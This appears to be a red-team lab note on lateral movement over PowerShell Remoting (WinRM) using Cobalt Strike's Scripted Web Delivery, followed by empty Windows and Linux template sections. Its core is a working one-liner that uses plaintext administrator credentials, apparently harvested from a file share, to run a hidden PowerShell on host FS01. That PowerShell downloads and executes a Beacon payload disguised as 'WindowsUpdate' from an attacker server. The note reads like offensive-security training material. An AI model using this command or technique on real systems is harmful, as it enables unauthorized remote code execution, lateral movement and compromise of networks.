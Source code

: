 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

Advantage > 1 Attacker to Many Hosts = WinRM
- The benefit of Windows Remoting over RDP is that it allows to make changes at scale, instead of having to do everything manually one by one. It should come as no surprise that it is also a popular lateral movement technique for adversaries!
###### OPSEC
Keep in mind that we are using PowerShell for lateral movement in this case, and that PowerShell commands are prone to extensive security measures such as AMSI and script-block logging.
# C2 - Cobalt Strike

## Enumeration 
Lateral movement with Windows Remoting is very straight forward in Cobalt Strike, Cobalt Strike has a built-in jump command which supports WinRM.
- However, it only supports kerberos authentication. 
- As a result we will have to perform the WinRM lateral movement a little bit more manually, which is a good exercise, as it shows you what the jump command does under the hood. 
```markdown
```

## Exploitation
First host a Scripted Web Delivery by Navigating to Attacks -> Scripted Web Delivery (S) in the top half of your Cobalt Strike Client.
- Fill in the familiar `/WindowsUpate` payload  

![[Pasted image 20240411234042.png]]

Let's construct our PowerShell OneLiner. We will create alternate credentials and pass those along with our Invoke-Command to execute our payload on FS01 
- Note: We got Administrator creds stored in `troubleshooting.ps1` PS file. These were found stored in the 'Sales' share accessible to the low privilege user we compromised.

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

After successfull completion of the command, a new Beacon will check-in with high integrity.

![[Pasted image 20240411234257.png]]

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
